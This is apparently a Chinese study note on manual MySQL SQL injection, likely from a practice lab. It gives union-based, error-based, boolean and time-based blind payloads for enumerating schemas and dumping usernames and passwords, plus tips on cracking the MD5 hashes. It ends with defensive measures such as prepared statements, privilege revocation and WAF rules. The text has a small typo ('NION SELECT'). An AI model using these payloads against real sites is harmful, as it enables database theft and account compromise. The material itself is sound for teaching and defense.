

### **一、MySQL手工注入核心流程**

#### **1. 信息收集阶段**

| **目标**     | **语句/方法**              | **说明**                                      |
| ------------ | -------------------------- | --------------------------------------------- |
| 数据库版本   | `@@version` 或 `version()` | 判断是否≥5.0（`information_schema`存在）      |
| 当前数据库名 | `database()`               | 关键：后续查询需指定`table_schema`            |
| 当前用户     | `user()`                   | 判断权限（root用户可执行高危操作）            |
| 操作系统信息 | `@@version_compile_os`     | 影响路径构造（如Web目录）                     |
| 字段数探测   | `ORDER BY n`               | 二分法测试，直至页面报错或异常（n为列数上限） |

> **注**：`information_schema` 是MySQL≥5.0的核心元数据库，包含：
>
> - `tables`：所有表信息 → `table_name`, `table_schema`
> - `columns`：所有列信息 → `table_name`, `column_name`
> - `schemata`：所有数据库名 → `schema_name`

------

#### **2. 联合查询注入（Union-Based）**

**步骤详解**：

1. **构造负值ID触发回显**

```sql
id=-1  -- 或0、不存在的值，使前查询无结果
```

2. **联合查询探测回显位**

```sql
NION SELECT 1,2,3,4  -- 列数需与ORDER BY一致
```

页面显示数字（如2,3）即为可回显位

- 没有回显的位置，MySQL 和 Microsoft 是可以用数字的，不能用字符。但是Oracle只能用`null` 。
- 同时，Oracle必须用from指定一个表例如`UNION SELECT 'abc' FROM dual` 。

**提取关键信息**

- 当前数据库：


```sql
UNION SELECT 1,database(),3,4
```

所有表名（使用`GROUP_CONCAT()`防截断）：

```sql
UNION SELECT 1,GROUP_CONCAT(table_name),3,4 
FROM information_schema.tables 
WHERE table_schema='当前数据库名'
```

表字段名：

- ```sql
  UNION SELECT 1,GROUP_CONCAT(column_name),3,4 
  FROM information_schema.columns 
  WHERE table_name='目标表名'  -- 如StormGroup_member
  ```

**脱库数据**

1. ```sql
   UNION SELECT 1,name,password,4 FROM StormGroup_member
   ```

   - **分页查询**：`LIMIT 0,1`（第1条）, `LIMIT 1,1`（第2条）

------

### **二、关键技巧与补充**

#### **1. 高效查询方法**

| **场景**          | **语句示例**                    | **优势**       |
| ----------------- | ------------------------------- | -------------- |
| 批量获取表名/列名 | `GROUP_CONCAT(table_name)`      | 避免多次查询   |
| 突破单行显示限制  | `LIMIT n,1`                     | 遍历所有数据行 |
| 处理特殊字符      | 十六进制编码（`0x...`）         | 绕过引号过滤   |
| 快速定位管理员表  | 筛选含`user/admin/member`的表名 | 针对性攻击     |

#### **2. 密码破解策略**

- **MD5解密**：

  - 在线库（cmd5.com）
  - 本地爆破（Hashcat）

  > 注：若密码加盐，需先识别盐值格式（如`md5(md5(pass)+salt)`）

#### **3. 报错注入补充（文档未涉及）**

```sql
AND updatexml(1,CONCAT(0x7e,(SELECT user()),1)  -- 数据长度限制≈32字符
```

**替代方案**：

```sql
AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT user()),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)
```

> 利用重复键报错，无长度限制

------

### **三、防御加固措施**

#### **1. 代码层防护**

| **措施**       | **实现方式**                              | **效果**     |
| -------------- | ----------------------------------------- | ------------ |
| 预编译语句     | `PreparedStatement` (Java/PHP PDO)        | 杜绝注入根本 |
| 输入过滤       | 白名单校验（如数字ID用`is_numeric()`）    | 拦截非法字符 |
| 最小化错误回显 | 关闭MySQL错误提示（`display_errors=off`） | 增加探测难度 |

#### **2. 数据库层加固**

- **权限控制**：

```sql
REVOKE FILE, PROCESS ON *.* FROM 'webuser'@'%';  -- 禁用高危权限
```

**禁用函数**（修改`my.cnf`）：

- ```sql
  [mysqld]
  secure_file_priv = NULL  -- 禁止LOAD_FILE/INTO OUTFILE
  ```

#### **3. Web应用层**

- **WAF规则**：
  - 拦截`information_schema`访问
  - 检测`UNION SELECT`等关键词
- **定期扫描**：
  SQLMap、Acunetix自动化检测注入点

------

### **四、高级场景扩展**

1. **盲注场景（无回显）**

   - **布尔盲注**：

```sql
AND (SELECT SUBSTR(password,1,1) FROM users)='a'  -- 根据页面变化判断
```

**时间盲注**：

- ```sql
  IF(ASCII(SUBSTR(database(),1,1))=115,SLEEP(5),0)  -- 若为's'则延时
  ```

**二阶注入**

- **特征**：
  输入经转义存入数据库，后续查询时被拼接执行
  
- **案例**：
  注册用户名为`admin'-- `，后续修改密码时触发：
  
  - ```sql
    UPDATE users SET password='new_pass' WHERE user='admin'-- '
    ```
  

------

### **总结流程图**




